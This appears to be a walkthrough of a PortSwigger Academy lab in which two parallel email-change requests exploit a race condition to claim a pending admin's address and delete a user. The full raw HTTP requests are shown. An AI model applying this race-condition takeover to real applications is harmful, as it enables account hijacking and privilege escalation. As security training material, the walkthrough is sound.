


# Single-endpoint race conditions

❓ This lab's email change feature contains a race condition that enables you to associate an arbitrary email address with your account.

Someone with the address [`carlos@ginandjuice.shop`](mailto:carlos@ginandjuice.shop) has a pending invite to be an administrator for the site, but they have not yet created an account. Therefore, any user who successfully claims this address will automatically inherit admin privileges.

To solve the lab:

```txt
1. Identify a race condition that lets you claim an arbitrary email address.
2. Change your email address to carlos@ginandjuice.shop.
3. Access the admin panel.
4. Delete the user carlos

```

You can log in to your own account with the following credentials: `wiener:peter`.

You also have access to an email client, where you can view all emails sent to `@exploit-<YOUR-EXPLOIT-SERVER-ID>.exploit-server.net` addresses.

```
⚠️

<p>
Solving this lab requires Burp Suite 2023.9 or higher. 
</p>
```

To get started, sign into the lab with the credentials provided (`wiener:peter`). From there we can view and submit a request to update our email. Once we update our email, look for a POST being sent to the `/my-account/change-email` endpoint, from here we can force an [endpoint collision](https://portswigger.net/web-security/race-conditions) if we create group requests for our email and carlos’ email and send them simultaneously using the `Send group (parallel)` button. (This will take multiple attempts)

```txt
POST /my-account/change-email HTTP/2
Host: 0a5c002e04bacd6381663eff00c400a9.web-security-academy.net
Cookie: session=ukWJykAZmDhPBvvewSm1DKjkyGFEH1Qj
Content-Length: 111
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0a5c002e04bacd6381663eff00c400a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5c002e04bacd6381663eff00c400a9.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=peter%40exploit-0ac10013041dcde281f73db501280004.exploit-server.net&csrf=mSNbwzcDPHKDqtM7m9CEK9e7IGTOhja3
```

```txt
POST /my-account/change-email HTTP/2
Host: 0a5c002e04bacd6381663eff00c400a9.web-security-academy.net
Cookie: session=ukWJykAZmDhPBvvewSm1DKjkyGFEH1Qj
Content-Length: 67
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0a5c002e04bacd6381663eff00c400a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a5c002e04bacd6381663eff00c400a9.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

email=carlos@ginandjuice.shop&csrf=mSNbwzcDPHKDqtM7m9CEK9e7IGTOhja3
```



After a few tries we will get an email confirmation link for [`carlos@ginandjuice.shop`](mailto:carlos@ginandjuice.shop), once we click the confirm link, our email will be set to the targets email and we will be able to access the admin panel and delete the user Carlos.


